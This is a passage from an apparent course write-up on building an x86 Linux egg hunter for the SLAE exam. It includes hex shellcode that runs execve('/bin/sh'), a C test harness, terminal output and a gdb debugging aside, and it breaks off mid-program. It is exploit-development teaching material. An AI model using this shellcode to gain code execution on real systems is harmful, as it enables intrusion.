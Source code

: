 ```c
unsigned char shellcode[] = \ // execve("/bin/sh", NULL, NULL);
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {
  int eggSize = strlen(egg);
  int shellcodeSize = strlen(shellcode);
  unsigned char* eggie = malloc((eggSize * 2) + shellcodeSize);

  memcpy(eggie, egg, eggSize);
  memcpy(&eggie[eggSize], egg, eggSize);
  memcpy(&eggie[eggSize * 2], shellcode, shellcodeSize);

  printf("Egg Hunter Length: %d\n", strlen(eggHunter));
  printf("Egg + Shellcode Length:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())eggHunter;

  ret();
}
```

**_Running our Shellcode_**

```bash
root@kali:~/courses/slae/exam# gcc shellcode.c -o shellcode

root@kali:~/courses/slae/exam/assignment3# ./shellcode
Egg Hunter Length: 44
Egg + Shellcode Length:  36
root@kali:~/courses/slae/exam/assignment3#
```

Wait what?? Why did we not get our shell? This took a little gdb magic to figure out...

{% include image.html name="gdb-assignment3.png" %}

If we look closely, we notice that our instructions in our egg hunter are wrong. Specifically, starting with this line:

`cmp    DWORD PTR [edx+0x4],0x75303077`

Looking back in our shellcode.c file, we indeed notice that there is a 0x74 byte missing. Going back and running `objdump -d assignment3 -M intel` will show us where to place it. It turns out the greppage I was using was not grabbing bytes if there were more than 6 on a line. Oops.

Fixing that allowed our egg hunter to work wondefully, and we were able to get our shell. Below is the final c code used to launch our egg hunter.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Hunting for w00tw00t
unsigned char eggHunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80"
"\x3c\xf2\x74\xed\x81\x3a\x77\x30\x30\x74\x75\xea\x81\x7a\x04\x77\x30\x30\x74"
"\x75\xe1\x83\xc2\x08\xff\xe2";

unsigned char egg[] = "\x77\x30\x30\x74"; // w00t

unsigned char shellcode[] = \ // execve("/bin/sh", NULL, NULL);
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {
  int eggSize = strlen(egg);
```